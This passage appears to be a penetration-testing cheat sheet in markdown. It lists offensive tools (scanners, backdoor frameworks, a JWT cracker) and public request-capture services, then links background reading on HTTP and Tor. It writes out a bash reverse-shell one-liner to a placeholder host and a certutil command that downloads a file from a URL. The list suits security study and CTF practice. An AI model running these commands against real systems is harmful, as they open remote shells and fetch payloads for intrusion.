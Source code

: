 #### Payload
- Burpsuit
- [Exploit DB](https://www.exploit-db.com/)
- c-jwt-cracker
- Scanner
  - sqlmap
  - xsser
  - ZAP
- Backdoor
  - weevely
  - veil
  - BeEF
- Reverse Shell
  - `/bin/sh -i >& /dev/tcp/<HOST>/<PORT> 0<&1`
  - [reverse ICMP shell (icmpsh)](https://github.com/bdamele/icmpsh)


#### Connection
- `/dev/tcp/<HOST>/<PORT>`
- telnet
- nc / ncat / socat
- `$ certutil.exe -urlcache -f <url> <filename>`
- [HTTPie](https://devhints.io/httpie)


#### Public Temp Server
- webhook.site
  - unique URL (https / CORS)
  - unique email
- beeceptor
- hookbin.com
- requestbin.net


### Background

#### HTTP Protocol
- [Basics of HTTP](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Basics_of_HTTP)
  - MIME
    > type/subtype;parameter=value
- [URI schemes](https://en.wikipedia.org/wiki/List_of_URI_schemes)
  - Data URI
    > data:[\<mediatype\>][;base64],\<data\>

#### The Onion Routing Protocol (Tor)
> [The Tor Project](https://www.torproject.org/)  
> [TOR internals, for those of us who also have a life (1/n) | microlab.red](https://microlab.red/2024/09/03/tor-internals-for-those-of-us-who-also-have-a-life-1-n/)  
> [TOR internals, for those of us who also have a life (2/n) | microlab.red](https://microlab.red/2024/09/23/tor-internals-for-those-of-us-who-also-have-a-life-2-n/)  
> [Creating a Testing Tor Network From Scratch | dax](https://medium.com/@dax_dev/creating-a-testing-tor-network-from-scratch-e952d76a18cb)  
> [Decentralized Routing in Tor Hidden Services](https://medium.com/@kyodo-tech/decentralized-routing-in-tor-hidden-services-40e0bc0793d5)
